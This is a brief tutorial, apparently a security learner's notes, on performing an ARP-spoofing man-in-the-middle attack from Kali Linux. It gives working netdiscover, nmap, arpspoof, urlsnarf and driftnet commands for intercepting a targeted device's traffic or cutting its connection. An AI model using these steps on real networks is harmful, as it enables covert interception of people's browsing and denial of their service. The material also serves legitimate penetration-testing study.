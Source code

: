 # Arp-spoofing


This tutorial assumes you are using kali, where these programs are already installed.

1. Run nmap or netdiscover to list the devices on the network.
 - `netdiscover -r 192.168.1.0/24` or whatever network range it is. This is good because it is live, and it updates as soon as new devices connect to the network.
 - `nmap -vvv 192.168.1.0/24`
2. `echo 1 > /proc/sys/net/ipv4/ip_forward` this command is fundamental. Without changing it to `1`you will only block the traffic, but not forward it. So that will bring down the connection for that person. If you want to do that make sure it is set to 0. If you want to intercept it make sure it is set to 1.
3. `arpspoof -i wlan0 -t 192.168.1.1 192.168.1.105`
  - `-i` is the interface flag. In this example we choose the wlan0 interface. Run `ifconfig` to see which interfaces you have available.
 - `-t` the target flag. It specifies your target. The first address is the router, and the second is the specific device you want to target.
4. Read the traffic
 - So now you are intercepting the traffic. You have a few choices how to read it. 
 - use urlsnarf. `urlsnarf -i wlan0` it will output all URLs.
 - `driftnet -i wlan0` - Driftnet is pretty cool. It let's you see all the images that is loaded in the targets browser in real time. Not very useful, but kind of cool.
 - wireshark. Just open wireshark and select the interface and start capturing.
 - Tcpdump. Also awesome.
